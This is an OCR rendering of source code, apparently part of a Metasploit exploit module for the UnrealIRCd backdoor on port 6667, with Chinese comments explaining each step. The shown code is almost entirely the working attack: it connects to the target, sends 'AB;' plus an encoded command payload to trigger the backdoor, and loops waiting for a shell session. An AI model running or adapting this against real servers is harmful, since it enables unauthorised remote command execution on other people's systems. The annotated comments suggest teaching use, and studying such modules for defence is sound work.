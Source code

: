 ```
      'Platform'       => ['unix'],
      'Arch'           => ARCH_CMD,
      'Privileged'     => false,
      'Payload'        =>
        {
          'Space'       => 1024,
          'DisableNops' => true,
          'Compat'      =>
            {
              'PayloadType' => 'cmd',
              'RequiredCmd' => 'generic perl ruby telnet',
            }
        },
      'Targets'        =>
        [
          [ 'Automatic Target', { }]
        ],
      'DefaultTarget' => 0,
      'DisclosureDate' => 'Jun 12 2010'))

    # 默认的配置参数，攻击目标端口号为6667
    register_options(
      [
        Opt::RPORT(6667)
      ], self.class)
  end

  # 攻击过程函数
  def exploit
    
    # 连接远程服务器的端口，使用 TCP 方式
    connect

    # 打印连接信息
    print_status("Connected to #{rhost}:#{rport}...")
    banner = sock.get_once(-1, 30)
    banner.to_s.split("\n").each do |line|
      print_line("    #{line}")
    end

    # 发送激活后门程序的命令，使用 sock.put 发送内容
    print_status("Sending backdoor command...")
    sock.put("AB;" + payload.encoded + "\n")

    # 等待服务器端的回复，如果会话被创建则退出，否则循环等待直到设定的超时时间到则退出
    1.upto(120) do
      break if session_created?
      select(nil, nil, nil, 0.25)
      handler()
    end
    disconnect
  end
end
```
